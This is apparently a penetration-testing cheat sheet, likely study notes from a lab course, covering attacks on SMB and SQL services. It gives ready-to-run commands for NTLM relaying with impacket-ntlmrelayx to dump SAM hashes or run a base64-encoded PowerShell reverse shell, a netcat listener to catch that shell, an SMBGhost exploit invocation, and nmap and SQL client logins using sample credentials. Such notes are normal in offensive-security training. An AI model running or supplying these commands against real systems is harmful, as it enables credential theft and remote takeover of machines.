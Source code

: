 #### Execute impacket-ntlmrelayx 
```Shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
Use the option `--no-http-server`, `-smb2support`, and the target machine with the option `-t`. By default, `impacket-ntlmrelayx` will dump the SAM database, but we can execute commands by adding the option `-c`.

#### Executing commands with impacket-ntlmrelayx
```Shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwA <..SNIP..>'
```
We can create a PowerShell reverse shell using https://www.revshells.com/, set our machine IP address, port, and the option Powershell #3 (Base64).

#### Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell
```Shell
nc -lnvp 9001
```

[SANS Institute SMB Access from Linux Cheatsheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)

### [SMBGhost Exploit](https://www.exploit-db.com/exploits/48537)

#### Running SMBGhost Exploit
```Shell
python smbghost.py -ip 192.168.142.131
```


## Attacking SQL Databases

### Enumeration

#### Banner Grabbing with Nmap
```Shell
nmap -Pn -sV -sC -p1433 10.10.10.125
```

### Protocol Specific Attacks

#### MySQL - Connecting to the SQL Server
```Shell
mysql -u julio -pPassword123 -h 10.129.20.13
```

#### MySQL - Connecting to the SQL Server using sqlcmd
```cmd.exe
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```
